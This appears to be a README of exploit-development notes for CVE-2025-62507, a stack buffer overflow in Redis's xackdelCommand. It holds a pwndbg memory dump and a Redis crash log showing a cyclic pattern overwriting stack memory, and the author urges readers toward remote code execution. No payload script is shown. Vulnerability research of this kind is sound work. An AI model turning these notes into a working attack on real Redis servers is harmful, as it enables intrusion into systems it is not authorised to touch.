

# CVE-2025-62507 Buffer-Overflow PoC
Simple "Crash" BO PoC - this one is working - go get some RCE :)

## 1st Crash - GDB Exclusive
https://github.com/redis/redis/compare/8.2.2...8.2

### Early Victory?
We noticed after a while, that the crash only occurs when we got the breakpoint set beforehand. This indicates a race condition and likely threading plays a role. 

### Bummer
After further analysis we found that probably redis-server closes the pipe due to the delay introduced in GDB. So this one wasn't usable.


```gdb
pwndbg> b xackdelCommand
pwndbg> x/40gx 0x7fffffffdc00
0x7fffffffdc00:	0x6161616261616161	0x0000000000000000
0x7fffffffdc10:	0x6161616461616163	0x0000000000000001
0x7fffffffdc20:	0x6161616661616165	0x0000000000000002
0x7fffffffdc30:	0x6161616861616167	0x0000000000000003
0x7fffffffdc40:	0x6161616a61616169	0x0000000000000004
0x7fffffffdc50:	0x6161616c6161616b	0x0000000000000005
0x7fffffffdc60:	0x6161616e6161616d	0x0000000000000006
0x7fffffffdc70:	0x616161706161616f	0x0000000000000007
0x7fffffffdc80:	0x6161617261616171	0x0000000000000008
```



## 2nd Crash - With or Without You

```bash
------ STACK TRACE ------
EIP:
./src/redis-server *:6379(xackdelCommand+0x15e) [0x55ba336b2acb]

1428757 bio_close_file
/lib/x86_64-linux-gnu/libc.so.6(+0x9a9ee) [0x7f1b9318c9ee]
/lib/x86_64-linux-gnu/libc.so.6(+0x8f668) [0x7f1b93181668]
/lib/x86_64-linux-gnu/libc.so.6(+0x8fc9c) [0x7f1b93181c9c]
/lib/x86_64-linux-gnu/libc.so.6(pthread_cond_wait+0x128) [0x7f1b93184158]
./src/redis-server *:6379(bioProcessBackgroundJobs+0x184) [0x55ba33654175]
/lib/x86_64-linux-gnu/libc.so.6(+0x92b7b) [0x7f1b93184b7b]
/lib/x86_64-linux-gnu/libc.so.6(+0x1107b8) [0x7f1b932027b8]

1428758 bio_aof
/lib/x86_64-linux-gnu/libc.so.6(+0x9a9ee) [0x7f1b9318c9ee]
/lib/x86_64-linux-gnu/libc.so.6(+0x8f668) [0x7f1b93181668]
/lib/x86_64-linux-gnu/libc.so.6(+0x8fc9c) [0x7f1b93181c9c]
/lib/x86_64-linux-gnu/libc.so.6(pthread_cond_wait+0x128) [0x7f1b93184158]
./src/redis-server *:6379(bioProcessBackgroundJobs+0x184) [0x55ba33654175]
/lib/x86_64-linux-gnu/libc.so.6(+0x92b7b) [0x7f1b93184b7b]
/lib/x86_64-linux-gnu/libc.so.6(+0x1107b8) [0x7f1b932027b8]

1428759 bio_lazy_free
/lib/x86_64-linux-gnu/libc.so.6(+0x9a9ee) [0x7f1b9318c9ee]
/lib/x86_64-linux-gnu/libc.so.6(+0x8f668) [0x7f1b93181668]
/lib/x86_64-linux-gnu/libc.so.6(+0x8fc9c) [0x7f1b93181c9c]
/lib/x86_64-linux-gnu/libc.so.6(pthread_cond_wait+0x128) [0x7f1b93184158]
./src/redis-server *:6379(bioProcessBackgroundJobs+0x184) [0x55ba33654175]
/lib/x86_64-linux-gnu/libc.so.6(+0x92b7b) [0x7f1b93184b7b]
/lib/x86_64-linux-gnu/libc.so.6(+0x1107b8) [0x7f1b932027b8]

1428756 redis-server *
/lib/x86_64-linux-gnu/libc.so.6(+0x3fdf0) [0x7f1b93131df0]
./src/redis-server *:6379(xackdelCommand+0x15e) [0x55ba336b2acb]
./src/redis-server *:6379(call+0x125) [0x55ba335999a5]
./src/redis-server *:6379(processCommand+0x12be) [0x55ba3359bad4]
./src/redis-server *:6379(processCommandAndResetClient+0x35) [0x55ba335b9cbf]
./src/redis-server *:6379(processInputBuffer+0x4ad) [0x55ba335ba701]
./src/redis-server *:6379(readQueryFromClient+0x4fb) [0x55ba335bad76]
./src/redis-server *:6379(+0x1e2ab4) [0x55ba336c8ab4]
./src/redis-server *:6379(+0x1e326d) [0x55ba336c926d]
./src/redis-server *:6379(aeProcessEvents+0x23a) [0x55ba3357fd1e]
./src/redis-server *:6379(aeMain+0x2a) [0x55ba3357ff1d]
./src/redis-server *:6379(main+0xd40) [0x55ba335a55ee]
/lib/x86_64-linux-gnu/libc.so.6(+0x29ca8) [0x7f1b9311bca8]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0x85) [0x7f1b9311bd65]
./src/redis-server *:6379(_start+0x21) [0x55ba33578581]

4/4 expected stacktraces.

------ STACK TRACE DONE ------

------ REGISTERS ------
1428756:M 15 Nov 2025 22:29:16.297 # 
RAX:00007f1ea5ceb128 RBX:00000000000001e9
RCX:00000003130b0b88 RDX:00007fff99798950
RDI:00007fff997987c4 RSI:0000000062616168
RBP:00007fff997989c0 RSP:00007fff99798890
R8 :0000000000000001 R9 :0000000000000000
R10:00007fff997989a0 R11:00007f1b932809e0
R12:0000000000000000 R13:00007fff99798ea8
R14:00007f1b93896000 R15:000055ba33c0b618
RIP:000055ba336b2acb EFL:0000000000010206
CSGSFS:002b000000000033
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff9979889f) -> 6161617461616173
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff9979889e) -> 6161617261616171
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff9979889d) -> 616161706161616f
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff9979889c) -> 6161616e6161616d
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff9979889b) -> 6161616c6161616b
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff9979889a) -> 6161616a61616169
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798899) -> 6161616861616167
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798898) -> 6161616661616165
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798897) -> 6161616461616163
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798896) -> 6161616261616161
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798895) -> 8854cbc945dd6ae1
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798894) -> 32b76f88c6d58735
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798893) -> 580c3c0813de871e
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798892) -> ebb9c4956da80b1b
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798891) -> 00007f1b92c45c00
1428756:M 15 Nov 2025 22:29:16.297 # (00007fff99798890) -> 000055ba33c57b50
```

Still some way to go... another day.
